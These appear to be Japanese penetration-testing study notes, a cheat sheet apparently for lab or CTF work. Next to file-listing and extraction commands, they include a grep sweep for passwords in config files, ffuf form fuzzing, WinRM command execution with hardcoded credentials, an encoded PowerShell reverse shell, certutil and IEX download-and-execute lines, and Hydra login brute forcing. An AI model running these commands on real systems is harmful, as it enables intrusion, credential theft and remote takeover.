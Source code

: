 ## ## tree

| コマンド例           | 説明                                       |
| --------------- | ---------------------------------------- |
| `tree -L 2`     | 深さ2まで表示（サブディレクトリが多い時に便利）                 |
| `tree -a`       | **隠しファイル（.dotfiles）も含めて表示**              |
| `tree -f`       | **フルパスで表示**（後でコピペしやすい）                   |
| `tree -pug`     | **パーミッション、所有者、グループ**付きで表示（権限確認に便利）       |
| `tree -h`       | **ファイルサイズを人間に読みやすく表示**（KB/MB/GB）         |
| `tree -I '*.log | *.tmp'`                                  |
| `tree -s`       | **サイズ順に並べる**（-Dと併用すると日時も表示可能）            |
| `tree -C`       | **色付き出力**（デフォで有効な場合も）                    |
| `tree -Q`       | **ファイル名をダブルクォートで囲む**（スペース入りファイル名がわかりやすい） |

### ### 情報収集向き
```sh 
tree -a -f -pug -h -L 3
```

---

## ## 解凍コマンド
### ### 7z
```sh
7z x file.7z
```

### ### tar.gz
```sh
tar -zxvf filename.tar.gz
```

### ### zip
- 圧縮
```
zip -r FILENAME.zip FILE_DIR
```

---
## ## 複数のファイルから特定の文字列を見つける方法
### ### Find
```sh
find /mnt/remote -type f -name '*.config' -exec grep -iH 'password' {} +
```
- オプションの説明：
	-  `find` コマンド部分
		- `/mnt/remote` ← 対象ディレクトリ
		- `-type f` ← 通常ファイルのみ検索（ディレクトリは無視）
		- `-name '*.config'` ← `.config` で終わるファイル名のみ対象
		- `-exec ... {} +` ← 見つけたファイルを `grep` に**まとめて渡す**
    - `grep` コマンド部分
		- `-i` ← **大文字小文字を無視**して「password」を検索（例：`PASSWORD`, `PassWord` もOK）
	    - `-H` ← ヒットした行の前に**ファイル名を表示**
	
---
### ### バイナリファイルを読む方法
```sh
strings hoge.sdf | less
```

---
# # SQLコマンド
# # MySQL コマンド
## ## ログイン
```sh
mysql -u root -h 127.0.0.1 -e 'show databases;'
```

---
# # FFUF
## ## Recuest.txtを作成し、Fuzzingを行う方法
```sh
ffuf -request ./req.txt -w wordlist.txt
```
- この際のリクエストファイルの中に列挙したい箇所をFUZZとして置く必要がある。
```sh
POST /forgot/ HTTP/1.1
Host: 10.10.11.113:8080
Content-Length: 25
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.11.113:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.113:8080/forgot/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

email=FUZZ
```

## ## Proxyを指定する方法
- `-x`をつければいい
```sh
ffuf -request ./req.txt -w /opt/wordlists/ssti.fuzz -v -x http://127.0.0.1:8080
```

---
# # WinRM
## ## Windowsからコマンドの実施
- RCE
```powershell
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123! "cmd /c hostname & whoami"
```

- ReverseShell
```powershell
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123! "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

---
# # ファイル転送
## ## HTTP/HTTPS
- リッスン側
```sh
sudo python3 -m http.server 80

# -dで任意のディレクトリを指定できる。
python3 -m http.server -d /opt/somedir
```

- ダウンロード側
Linuxの場合:
```sh
wget http://<HTTPサーバのIP>:<ポート番号>/<ファイル名> -O <お好みのファイル名>

curl http://<HTTPサーバのIP>:<ポート番号>/<ファイル名> -o <お好みのファイル名>
```
Windowsの場合:
```
C:\> certutil -URLcache -f http://<HTTPサーバのIP>/file file

PS C:\> powershell -c "Invoke-Webrequest -OutFile <お好みのファイル名> -Uri http://<HTTPサーバのIP>/<ファイル名>"

PS C:\> IEX(New-Object Net.WebClient).downloadString('http://<HTTPサーバのIP>:<ポート番号>/<ファイル名>')
```


# # 参考資料
- https://qiita.com/Hashibirokou/items/5fbb2e94ca42434e4575

---
# # Hydra
## ## http/https
```sh
# POST Method
## ↓文字一致で判断(部分一致でもOK)
hydra -L /opt/wordlists/names.txt -p baconandcheese http-post-form "//umbraco/backoffice/UmbracoApi/Authentication/PostLogin:"username":"^USER^","password":"^PASS^":F=failed"

## ステータスベース(誤検知が多いので注意)
hydra -l admin -P passwords.txt 10.10.10.10 http-post-form "/login:username=^USER^&password=^PASS^:S=302"
```
---
